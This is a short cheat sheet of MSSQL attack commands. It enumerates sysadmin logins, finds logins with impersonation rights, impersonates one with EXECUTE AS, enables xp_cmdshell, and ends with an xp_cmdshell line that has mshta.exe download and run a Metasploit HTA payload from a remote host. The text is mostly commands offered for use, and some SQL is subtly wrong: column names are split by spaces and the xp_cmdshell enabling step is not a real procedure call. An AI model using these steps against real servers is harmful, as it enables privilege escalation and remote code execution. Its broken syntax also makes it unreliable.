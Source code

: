 ## mssql command to retrive sysadmin user
```
select loginname from syslogins where sysadmin = 1;
```

## mssql Command to check users with impersonate privilege
```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal id = b.principal id WHERE a.permission_name = 'IMPERSONATE';
```

## Impersonate
```
exec as login = 'dbuser';
```
- Check currentuser
```
SELECT SYSTEM_USER;
```
```
exec as login = 'dbuser';
```
## Then enable CMD Shell and use mshta.exe exploit method
```
enable_xp_cmdshell;
exec xp_cmdshell "mshta.exe http://remoteserver/metasploitpayload.hta"
```
